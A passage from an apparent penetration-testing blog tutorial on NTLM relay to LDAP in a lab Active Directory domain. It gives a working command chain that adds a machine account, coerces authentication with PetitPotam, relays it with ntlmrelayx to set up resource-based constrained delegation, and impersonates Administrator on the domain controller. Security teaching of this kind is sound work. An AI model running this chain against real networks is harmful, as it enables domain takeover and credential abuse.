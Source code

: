   <div style="font-style: italic; color: #666; margin-top: 0px;">NetExec WebDAV module</div>
</div>

It's quite rare to see the WebClient service enabled. For that reason, we often choose NTLM relay over SMB. When we use a compromised Windows device to relay, we need to listen on 445/tcp to receive SMB traffic. Since Windows itself already binds that port, we must first free or hijack it. If we have local administrator privileges on the device, a technique introduced in ["Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover"](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac) by SpecterOps can be useful. Alternatively, when we lack local administrator privileges, we can connect our device directly to the target network via VPN.

To coerce NTLM authentication over SMB or HTTP, we can use tools such as [PetitPotam](https://github.com/topotam/PetitPotam) and [Coercer](https://github.com/p0dalirius/Coercer). I won't cover their internals — we only need SMB access to DC1. 

We can exploit NTLM relay to LDAP/LDAPS using the RBCD technique as follows. Remember that LmCompatibilityLevel <= 2 must be met for relay over SMB. If relaying over HTTP, we can remove --remove-mic. For more details on RBCD, see ["(RBCD) Resource-based constrained"](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) from The Hacker Recipes.
```sh
# Add a machine account to abuse
# Prereq: MachineAccountQuota >= 1 (default 10)
# Check: netexec ldap dc1.kawakatz.local -u coward -p 'P@ssw0rd' -M maq
python3 addcomputer.py -computer-name 'KAWAPC$' -computer-pass 'P@ssw0rd' kawakatz.local/coward:'P@ssw0rd' -dc-ip <dc ip>

# NTLM relay to LDAP for RBCD
sudo python3 ntlmrelayx.py -smb2support -t ldap://dc2.kawakatz.local --remove-mic --delegate-access --escalate-user 'KAWAPC$' --no-dump --no-da --no-acl --no-validate-privs
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' <attacker ip> dc1.kawakatz.local
sudo python3 rbcd.py -delegate-to 'DC1$' -action read kawakatz.local/coward:'P@ssw0rd' -dc-ip <dc ip>

# Impersonate Administrator
sudo python3 getST.py -spn cifs/dc1.kawakatz.local kawakatz.local/'KAWAPC$':'P@ssw0rd' -impersonate Administrator -dc-ip <dc ip>
export KRB5CCNAME=Administrator@cifs_dc1.kawakatz.local@KAWAKATZ.LOCAL.ccache
sudo python3 smbclient.py -k -no-pass kawakatz.local/Administrator@dc1.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/11.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Adding a machine account</div>
</div>
<div style="text-align: center; margin: 20px 0;">